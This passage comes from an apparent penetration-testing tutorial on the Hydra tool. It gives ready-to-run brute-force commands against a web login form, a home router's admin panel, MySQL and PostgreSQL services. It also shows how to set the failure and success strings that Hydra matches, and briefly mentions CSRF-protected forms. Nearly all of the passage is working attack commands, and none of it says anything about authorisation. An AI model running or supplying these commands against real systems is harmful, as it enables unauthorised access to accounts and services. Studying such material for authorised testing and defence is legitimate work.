 2. Test manually to find error messages:
   - Success: Redirect to `/dashboard.php`
   - Failure: "Invalid credentials" message

**Hydra Command:**
```bash
hydra -L users.txt -P passwords.txt 10.10.10.20 http-post-form \
"/auth.php:uname=^USER^&pwd=^PASS^:F=Invalid credentials" -t 6 -f
```

### Scenario 2: Router Administration Panel
**Target:** Home router at `192.168.1.1` with HTTP basic auth

**Common Default Credentials Approach:**
```bash
# Try common router defaults first
hydra -C router_defaults.txt http-get://192.168.1.1/

# If that fails, full brute force
hydra -L common_users.txt -P common_passwords.txt http-get://192.168.1.1/ -t 3
```

### Scenario 3: Database Service
**Target:** MySQL service on port 3306

```bash
# MySQL brute force
hydra -L db_users.txt -P db_passwords.txt mysql://10.10.10.30:3306 -t 2

# PostgreSQL
hydra -L db_users.txt -P db_passwords.txt postgres://10.10.10.30:5432
```

## Common Error Patterns and Solutions

### Handling Different Error Messages
```bash
# Multiple failure conditions (OR logic)
hydra -l admin -P passes.txt 10.10.10.10 http-post-form \
"/login:user=^USER^&pass=^PASS^:F=Invalid login or password|F=Access denied"

# Success condition (look for specific success indicator)
hydra -l admin -P passes.txt 10.10.10.10 http-post-form \
"/login:user=^USER^&pass=^PASS^:S=Welcome|S=Dashboard" -f
```

### Dealing with CSRF Tokens
For forms with CSRF protection, you may need to:
1. First GET the login page to obtain a fresh CSRF token
2. Include the token in your POST request

```bash
# This requires a more sophisticated approach, often needing custom scripts
# Hydra alone may not suffice for modern CSRF-protected forms
```
